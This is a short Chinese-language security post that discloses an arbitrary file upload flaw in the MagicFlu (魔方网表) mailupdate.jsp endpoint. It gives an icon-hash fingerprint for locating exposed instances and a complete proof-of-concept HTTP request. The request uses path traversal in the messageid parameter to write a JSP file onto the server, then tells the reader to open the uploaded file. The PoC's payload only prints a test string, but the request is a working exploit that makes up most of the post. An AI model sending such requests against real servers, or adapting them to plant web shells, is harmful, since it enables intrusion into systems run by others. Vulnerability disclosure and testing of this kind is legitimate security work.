 #  魔方网表存在文件上传漏洞   
wiki  墨雪飘影   2024-04-20 10:01  
  
魔方网表 mailupdate.jsp接口 任意文件上传漏洞@Rabbit  
  
https://wiki.shikangsi.com/post/4084/  
  
漏洞描述  
  
魔方网表mailupdate.jsp接口存在任意文件上传漏洞。  
  
资产测绘  
  
icon_hash="694014318"  
  
P  
OC  
```
GET /magicflu/html/mail/mailupdate.jsp?messageid=/../../../test1.jsp&messagecontent=%3C%25+out.println%28%22tteesstt1%22%29%3B%25%3E HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
```  
  
上传后访问  
/magicflu/test1.jsp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mmVk0LK0gXHhcO3qqPm2mrrf6QvZ1USeOlWoew6ROc4MrDKaukFGJjOnsuOuNn407uhic2DzjZFebHNJVRh7PzA/640?wx_fmt=png&from=appmsg "")  
  
阅读原文，查  
看更多。  
  
